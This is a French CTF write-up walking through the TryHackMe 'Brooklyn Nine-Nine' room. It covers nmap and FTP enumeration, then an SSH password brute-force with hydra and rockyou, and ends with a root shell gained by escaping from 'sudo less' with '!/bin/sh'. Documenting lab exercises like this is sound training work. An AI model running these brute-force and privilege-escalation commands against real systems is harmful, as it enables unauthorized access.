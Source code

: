 ```yaml
---
title: "Write-up : TryHackMe - Brooklyn Nine-Nine"
date: 2025-04-22T09:00:00+02:00
draft: false
author: "AntoineWHR"
tags: ["TryHackMe", "CTF", "Linux", "FTP", "SSH", "Sudo", "Less"]
categories: ["WriteUps"]
comment:
  enable: true
description: "Solution pas à pas du challenge TryHackMe Brooklyn Nine-Nine, de la reconnaissance à l'accès root."
featuredImage: "/images/brkl99.png"
---
```


<!--more-->

# **Write-up : TryHackMe - Brooklyn Nine-Nine**

{{< admonition info "Informations sur la Room" >}}
*   **Nom :** Brooklyn Nine-Nine
*   **Plateforme :** TryHackMe
*   **Lien :** [https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)
*   **Difficulté Annoncée :** Facile (Easy)
*   **Objectif :** Obtenir les flags `user.txt` et `root.txt`.
{{< /admonition >}}

## **Introduction**

Ce challenge nous plonge dans l'univers de la série Brooklyn 99. Notre mission est de compromettre le serveur utilisé par l'équipe et de récupérer les flags utilisateur et root, en exploitant probablement quelques faiblesses laissées par nos personnages préférés.

## **Phase 1 : Reconnaissance & Énumération**

### **1. Scan des Ports (Nmap)**

Comme toujours, commençons par un scan Nmap pour identifier les services exposés sur la machine cible.

```bash
nmap -sC -sV <IP_SERVEUR>
# -sC: Utilise les scripts Nmap par défaut
# -sV: Tente de déterminer la version des services
```

![](/images/nmap1.png)

{{< admonition note "Résultats Clés du Scan Nmap" >}}
Le scan révèle trois ports ouverts principaux :

*   **Port 21 (FTP) :** vsftpd - Permet la connexion anonyme (`Anonymous FTP login allowed`). C'est une piste prioritaire !
*   **Port 22 (SSH) :** OpenSSH
*   **Port 80 (HTTP) :** Apache
{{< /admonition >}}

### **2. Exploration FTP**

La possibilité de connexion anonyme sur le FTP est une piste intéressante. Connectons-nous :

```bash
ftp -p <IP_SERVEUR> <PORT>
# Nom : Anonymous
# Mot de passe : <laisser vide>
```

Une fois connecté, on liste les fichiers et on trouve la note : `note_to_jake.txt`. Téléchargeons-la (`get note_to_jake.txt`) et examinons son contenu (`cat note_to_jake.txt`).

![](/images/ftp2.png)

{{< admonition tip "Indice Crucial de la Note FTP" >}}
La note mentionne que Jake a un mot de passe très faible. (ça lui ressemble bien)
C'est une information capitale pour la suite !
{{< /admonition >}}

### **3. Exploration Web (HTTP)**

Avant de tenter le brute-force, jetons un œil au serveur web sur le port 80. La page d'accueil par défaut d'Apache ne révèle rien d'immédiat. Utilisons `feroxbuster` (ou `gobuster`/`dirb`) pour chercher des répertoires ou fichiers cachés.

```bash
feroxbuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP_SERVEUR>/
# -w : Spécifie la wordlist
# -u : L'URL cible
```

Malgré l'énumération web, aucun répertoire ou fichier intéressant n'a été découvert lors de cette étape.

## **Phase 2 : Exploitation - Accès Initial (User Flag)**

### **Brute-force SSH avec Hydra**

Forts de l'indice trouvé dans la note FTP ("mot de passe très simple" pour l'utilisateur "jake"), nous allons tenter une attaque par brute-force sur le service SSH (port 22) en utilisant Hydra. Nous utiliserons `rockyou.txt`, une wordlist très commune, en espérant y trouver le mot de passe faible.

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<IP_SERVEUR>/ -f
# -l jake : Spécifie le nom d'utilisateur cible
# -P /usr/share/wordlists/rockyou.txt : Spécifie le fichier de mots de passe
# ssh://<IP_SERVEUR>/ : Spécifie le service et l'hôte cible
# -f : Arrête Hydra dès qu'un mot de passe valide est trouvé
```

![](/images/hydra3.png)

Succès ! Hydra trouve rapidement le mot de passe : `987654321`.

### **Connexion SSH et Flag Utilisateur**

Connectons-nous maintenant en SSH avec les identifiants trouvés :

```bash
ssh jake@<IP_SERVEUR>
# Entrer le mot de passe : 987654321
```

Une fois connecté, nous cherchons le flag utilisateur (`user.txt`). Après un peu d'exploration (ou en suivant les conventions habituelles), on le trouve dans le répertoire `/home/holt`. Clin d'œil amusant à la série !

```bash
ls /home/holt/
cat /home/holt/user.txt
```

![](/images/ssh4.png)

**Flag Utilisateur Obtenu !**

---

## **Phase 3 : Élévation de Privilèges (Root Flag)**

### **Vérification des Privilèges Sudo**

Maintenant que nous avons un accès en tant que `jake`, cherchons comment devenir `root`. Une des premières commandes à vérifier est `sudo -l`, qui liste les commandes que l'utilisateur actuel peut exécuter avec `sudo`.

```bash
sudo -l
```

{{< admonition warning "Résultat Sudo - Porte Ouverte !" >}}
La sortie indique que l'utilisateur `jake` peut exécuter la commande `/usr/bin/less` en tant que `root` sans mot de passe (`NOPASSWD`). C'est une faille de configuration classique !
```text
User jake may run the following commands on :
    (ALL : ALL) NOPASSWD: /usr/bin/less
```
{{< /admonition >}}

### **Exploitation via `less` (GTFOBins)**

Certains binaires Linux, même ceux qui semblent inoffensifs comme `less` (un paginateur de texte), peuvent être détournés pour obtenir un shell s'ils sont exécutés avec des privilèges élevés. Le site [GTFOBins](https://gtfobins.github.io/) est une ressource fantastique pour trouver de telles techniques.

En cherchant `less` sur GTFOBins, nous trouvons une section "Sudo".

{{< admonition tip "Technique d'Exploitation `less` (GTFOBins)" >}}
La technique est simple :
1.  Exécuter `less` via `sudo` sur n'importe quel fichier (par exemple `/etc/profile`).
2.  Une fois dans l'interface de `less`, taper `!/bin/sh` (ou `!/bin/bash`). Le `!` permet d'exécuter une commande shell depuis `less`.

Appliquons cela :
```bash
sudo less /etc/profile
```
Puis, dans `less`, tapez :
```sh
!/bin/sh
```
Appuyez sur Entrée.
{{< /admonition >}}

### **Accès Root et Flag Root**

Nous sommes maintenant `root`. Il ne reste plus qu'à récupérer le flag final, généralement situé dans `/root/root.txt`.

```bash
# cd /root
# ls
root.txt
# cat root.txt
```

![](/images/root5.png)

**Flag Root Obtenu ! Challenge Terminé !**

## **Conclusion**

Ce challenge "Brooklyn Nine-Nine" était une excellente introduction aux concepts de base du CTF :

1.  **Énumération :** Scan de ports (Nmap), découverte de services (FTP anonyme, SSH, HTTP), énumération web (feroxbuster).
2.  **Exploitation :** Utilisation d'indices (note FTP) pour cibler une attaque (brute-force SSH avec Hydra).
3.  **Élévation de Privilèges :** Vérification des permissions `sudo` (`sudo -l`) et exploitation d'une mauvaise configuration via un binaire autorisé (exploitation de `less` via GTFOBins).

C'était une room amusante et bien thématisée, parfaite pour les débutants.

> PS : Jake change de mdp stp
